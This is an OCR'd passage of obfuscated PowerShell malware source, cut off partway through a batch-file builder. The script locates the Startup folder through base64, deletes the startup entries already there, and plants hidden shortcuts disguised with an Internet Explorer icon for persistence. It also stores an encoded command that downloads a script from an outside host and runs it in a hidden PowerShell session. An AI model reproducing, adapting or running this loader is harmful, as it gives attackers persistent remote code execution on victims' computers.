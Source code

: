 function _____/\_/\/\_/\/=\
{
  Param([string]${___/\_/=\___/\_/==},[string]${__/==\/\_/\/=\/\_/});
  try{  
    ${__/\_/=\/=\/=====} = New-Object -ComObject WScript.Shell 
    ${/=\/\__/=\/=\/=\_} = ${__/\_/=\/=\/=====}.CreateShortcut(${___/\_/=\___/\_/==}) 
    ${/=\/\__/=\/=\/=\_}.TargetPath = "${/_//_//_/}"       
    ${/=\/\__/=\/=\/=\_}.Arguments = ""
    ${/=\/\__/=\/=\/=\_}.WorkingDirectory = "" 
    ${/=\/\__/=\/=\/=\_}.WindowStyle = 7   
    ${/=\/\__/=\/=\/=\_}.IconLocation = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('JQBQAHIAbwBnAHIAYQBtAEYAaQBsAGUAcwAlAFwASQBuAHQAZQByAG4AZQB0ACAARQB4AHAAbABvAHIAZQByAFwAaQBlAHgAcABsAG8AcgBlAC4AZQB4AGUALAAxAA==')))
    ${/=\/\__/=\/=\/=\_}.Save()
  }finally{}
}
${/===\__/=\_/==\_/} = New-Object -Com WScript.Shell
${/=\_/\_/===\/\/\/} = ${/===\__/=\_/==\_/}.SpecialFolders.Item($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('cwB0AGEAcgB0AHUAcAA='))));          
del ${/=\_/\_/===\/\/\/}\*.vbs
del ${/=\_/\_/===\/\/\/}\*.lnk
del ${/=\_/\_/===\/\/\/}\*.exe
del ${/=\_/\_/===\/\/\/}\*.cmd
${_/=\/=\/\_/\/=\__} = "                                                                                                                                                                                                                                                                                                  $env:APPDATA\${_/=\/\/=\___/\/==}, ${_/\/\/\/=\/==\__/}"
${___/\_/\/===\/\__} = "${/=\_/\_/===\/\/\/}\${_\\\\\\/|\_/|/\\\___\\\\/|_}.lnk"        
_____/\_/\/\_/\/=\ ${___/\_/\/===\/\__}  ${_/=\/=\/\_/\/=\__} 
${___/\_/\/===\/\__} = "${/=\_/\_/===\/\/\/}\${_\\\\\\/|\_/|/\\\___\\\\/|_}EX.lnk" 
_____/\_/\/\_/\/=\\\\\\\\\\///// ${___/\_/\/===\/\__}  ${_/=\/=\/\_/\/=\__} 

${___/\_/\/===\/\__} = "${/=\_/\_/===\/\/\/}\${_\\\\\\/|\_/|/\\\___\\\\/|_}AT.lnk" 
_____/\_/\/\_/\/=\\\\\\\\\\/////\\\\\\\\\\\\\\\\\\\\\\\ ${___/\_/\/===\/\__}  ${_/=\/=\/\_/\/=\__} 

#${___/\_/\/===\/\__} = "${/=\_/\_/===\/\/\/}\${_\\\\\\/|\_/|/\\\___\\\\/|_}bt.lnk" 
#_____/\_/\/\_/\/=\\\\\\\\\\/////\\\\\\\\\\\\\\\\\\\\\\\/////////////////////// ${___/\_/\/===\/\__}  ${_/=\/=\/\_/\/=\__} 

${___/\_/\/===\/\__} = "${/=\_/\_/===\/\/\/}\${_\\\\\\/|\_/|/\\\___\\\\/|_}AA.lnk" 
_____/\_/\/\_/\/=\\\\\\\\\\/////\\\\\\\\\\\\\\\\\\\\\\\____\\\ ${___/\_/\/===\/\__}  ${_/=\/=\/\_/\/=\__} 

   ${/\/\/\/\__\\//___} = "@14@12@17@24 @18@14@33 (@23@14@32-@24@11@19@14@12@29 @23@14@29.@32@14@11@12@21@18@14@23@29).@13@24@32@23@21@24@10@13@28@29@27@18@23@16('@17@29@29@25@28://@15@28@23@10@29.@28@17@24@25/@10/@0@8/@1@5@0@8@2@2/@10@30/@10@30')  | @25@24@32@14@27@28@17@14@21@21.@14@33@14 -@23@24@25 -@32@18@23 @1 -"

    ${_\\\\\\/|\_/|/\\\___\\\\/|_} = ${_\\\\\\/|\_/|/\\\___\\\\/|_}
    ${//////////____zz//} = "${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_\\\\\\/|\\\\\\\\\\\\\\\\\_}"
    ${ZZZZxxxx_}  =  ${/\/\/\/\__\\//___}
    ${ZZZZxxxx_} | Set-Content ${//////////____zz//}${GER}y
    ${\\/_} = (${_\\\\\\/|\_/|/\\\___\\\\/|_})
    ${\\/////\} = (${_\\\\\\/|\_/|/\\\___\\\\/|_} + "A")
    ${/\} = (${_\\\\\\/|\_/|/\\\___\\\\/|_} + "B") 
    ${/_//_//_/} = "${_\\\\\\/|\_/|/\\\\\\\/|_}\${_\\\\\\/|\\\\\\\\\\\\\\\\\_}${GER}y.${_/|\_/|////\__|/_|\\_}"
    ${\\\\__/////////}  =  "@Echo off`r`n"
	${\\\\__/////////}  += "Setlocal EnableExtensions`r`n"
    ${\\\\__/////////}  += "Setlocal EnableDelayedExpansion`r`n"
    ${\\\\__/////////}  += "cd %SystemRoot%\System32`r`n"
    ${\\\\__/////////}  += "Set /P ${_\\\\\\/|\_/|/\\\___\\\\/|_}=<`"${//////////____zz//}${GER}y`"`r`n"
    ${\\\\__/////////}  += "set chars=0123456789abcdefghijklmnopqrstuvwxyz`r`n"
    ${\\\\__/////////}  += "for /L %%N in (10 1 36) do (`r`n"
